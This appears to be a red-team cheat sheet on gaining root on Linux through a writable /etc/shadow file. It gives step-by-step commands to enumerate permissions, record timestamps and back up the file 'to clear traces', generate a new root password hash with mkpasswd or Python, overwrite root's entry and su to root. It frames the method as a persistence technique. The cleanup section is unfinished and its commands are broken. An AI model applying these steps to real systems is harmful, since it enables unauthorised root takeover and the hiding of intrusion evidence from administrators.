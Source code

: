 # Living off the Land

## Weak File Permissions - Writable `/etc/shadow`

> [!INFO]
> Nowadays most modern Linux servers and desktops currently are most up-to-date and I can say you'll never find it. Yet you can use this method as a persistence technique yet it's not **OPSEC** safe. However, you'll might need it under certain circumstances.

## 01 - Enumerate

```
$ ls -l /etc/shadow
```

## 02 - Exploit

Before resetting the password. Take note of the timestamp to clear traces ahead of time.

```
$ stat /etc/shadow
```

Backup the shadow file. To clear traces ahead of time.

```
$ cp /etc/shadow /tmp/shadow.bak && sudo chmod o+r /etc/shadow
```

### 2.1 - Overwrite Password via Hash Digest

#### 2.1.1 - `mkpasswd`

Consult the command's usage for available hash digest algorithms.

```
$ mkpasswd -m help
```

Generate the password hash by supplying an input.

```
$ mkpasswd -m sha512crypt newpass1234
```

#### 2.1.2 - Python `crypt` Module

```
$ python -c 'import crypt; print(crypt.crypt("newpass1234", "$6$salt"))'
```

Then edit the shadow file `root:<sha512crypt_hash>:17298:0:99999:7:::` replace the old `<sha512crypt_hash>` which starts with `$6$` into a new one that was previously generated. Then try to authenticate and you're root.

```
$ su root
```

## 03 - Cleanup

TODO: Fill in this info

```
$ cp /etc/shadow.bak /tmp/shadow

$ touch
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)